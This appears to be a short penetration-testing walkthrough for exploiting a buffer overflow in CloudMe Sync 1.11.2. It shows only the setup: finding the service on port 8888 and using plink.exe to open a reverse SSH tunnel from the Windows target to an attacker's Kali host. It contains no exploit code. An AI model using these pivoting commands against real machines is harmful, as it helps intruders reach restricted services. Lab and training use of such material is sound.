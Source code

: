 # CloudMe Sync 1.11.2 Buffer Overflow + SEH

CloudMe Sync is a synchronization application which syncs local storage with the cloud storage. It listens on port 8888 by default.

1. Check if the service is running on port 8888

        C:\> sc queryex type=service state=all | find /i "CloudMe"
        C:\> netstat -ano | find "8888"

2. Create remote SSH tunnel between Windows and Kali Linux in order to access the restricted service remotely
   1. Start SSH service in Kali

            sudo service ssh start
            sudo ss -antlp | grep sshd

   2. Check architecture of Windows machine, and download the right version of [plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

            wmic os get osarchitecture

   3. Check firewall rules

            netsh firewall show config

   4. Create SSH tunnel by initiating tunneling from the Windows machine

            plink.exe -ssh -l <KaliUSERNAME> -pw <KaliPASSWORD> -N -R <KaliIP>:<KaliPORT>:127.0.0.1:8888 <KaliIP>

## References

* https://bufferoverflows.net/practical-exploitation-part-1-cloudme-sync-1-11-2-bufferoverflow-seh/
* https://medium.com/@informationsecurity/remote-ssh-tunneling-with-plink-exe-7831072b3d7d
* https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
* https://www.fireeye.com/blog/threat-research/2019/01/bypassing-network-restrictions-through-rdp-tunneling.html